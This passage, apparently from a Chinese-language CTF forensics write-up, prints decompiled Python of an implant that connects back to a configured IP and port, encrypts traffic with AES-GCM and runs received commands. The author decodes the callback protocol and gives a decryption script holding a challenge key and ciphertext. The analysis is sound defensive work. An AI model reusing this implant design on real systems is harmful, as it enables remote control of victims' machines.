    if _aesgcm is None:
        raise RuntimeError('AES 密钥未初始化，请先调用 set_aes_key()')
    nonce = os.urandom(12)
    ciphertext = _aesgcm.encrypt(nonce, data, None)
    return nonce + ciphertext


def decrypt_data(encrypted_data = None):
    if _aesgcm is None:
        raise RuntimeError('AES 密钥未初始化，请先调用 set_aes_key()')
    if len(encrypted_data) < 28:
        raise ValueError('加密数据太短，无法包含 nonce 和认证标签')
    nonce = encrypted_data[:12]
    ciphertext_with_tag = encrypted_data[12:]
    plaintext = _aesgcm.decrypt(nonce, ciphertext_with_tag, None)
    return plaintext


def exec_cmd(command, code_flag):
    command = command.decode('utf-8')
# WARNING: Decompyle incomplete


def send_data(conn, data):
    if type(data) == str:
        data = data.encode('utf-8')
    encrypted_data = settings.encrypt_data(data)
    cmd_len = struct.pack('i', len(encrypted_data))
    conn.send(cmd_len)
    conn.send(encrypted_data)


def recv_data(sock, buf_size = (1024,)):
    x = sock.recv(4)
    all_size = struct.unpack('i', x)[0]
    recv_size = 0
    encrypted_data = b''
    if recv_size < all_size:
        encrypted_data += sock.recv(buf_size)
        recv_size += buf_size
        continue
    data = settings.decrypt_data(encrypted_data)
    return data


def main():
    sock = socket.socket()
    sock.connect((settings.IMPLANT_CONNECT_IP, settings.IMPLANT_CONNECT_PORT))
    code_flag = 'gbk' if os.name == 'nt' else 'utf-8'
# WARNING: Decompyle incomplete

if __name__ == '__main__':
    parser = argparse.ArgumentParser('', **('description',))
    parser.add_argument('--aes-key', True, '', **('required', 'help'))
    args = parser.parse_args()
    settings.set_aes_key(args.aes_key)
    main()
```

我们可以借此解析出回连流量的协议格式：
- 前4字节为data的size
- aes-gcm密文格式
  - 前12字节：nonce
  - 后续:ciphertext + tag(tag不用管)
通过`ip.addr == 10.1.243.155 && tcp.port == 7788 && ip.src == 10.1.33.69`进行筛选流量包  
筛选完以后我们编写脚本解析流量包  
```python
import base64
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

def decrypt_implant_data(hex_data: str, key_b64: str):
    encrypted_data = bytes.fromhex(hex_data)
    
    try:
        key = base64.b64decode(key_b64)
        if len(key) not in (16, 24, 32):
            print(f"错误：解密后的密钥长度为 {len(key)}，必须为 16, 24 或 32 字节。")
            return
    except Exception as e:
        print(f"密钥 Base64 解码失败: {e}")
        return

    nonce = encrypted_data[:12]
    ciphertext_with_tag = encrypted_data[12:]
    
    print(f"数据总长度: {len(encrypted_data)} 字节")
    print(f"Nonce (12 bytes): {nonce.hex()}")
    print(f"密文+Tag: {ciphertext_with_tag.hex()}")

    try:
        aesgcm = AESGCM(key)
        plaintext = aesgcm.decrypt(nonce, ciphertext_with_tag, None)
        print(f"\n明文 (Hex): {plaintext.hex()}")
        try:
            print(f"明文 (UTF-8): {plaintext.decode('utf-8')}")
        except UnicodeDecodeError:
            print("明文包含非 UTF-8 可打印字符。")
    except Exception as e:
        print(f"\n解密失败: {e}")

if __name__ == '__main__':
    data = "5fb656ee12487f33e75202b3bec1a6728977618d6b221fb887fa90d36cb5ff75949c1ae90608e22fc81a12fb2e576dd2df4330fcbf619b19455dcfe6c9ae2a8e730cf9010dcc3a15f04bec1fa70b051792d4e197cee0f075405b366472711d1d94f5bb349348bf05d5"
    aes_key_base64 = "IhbJfHI98nuSvs5JweD5qsNvSQ/HHcE/SNLyEBU9Phs="
    decrypt_implant_data(data, aes_key_base64)
``` 


最后解密base58+base64即可


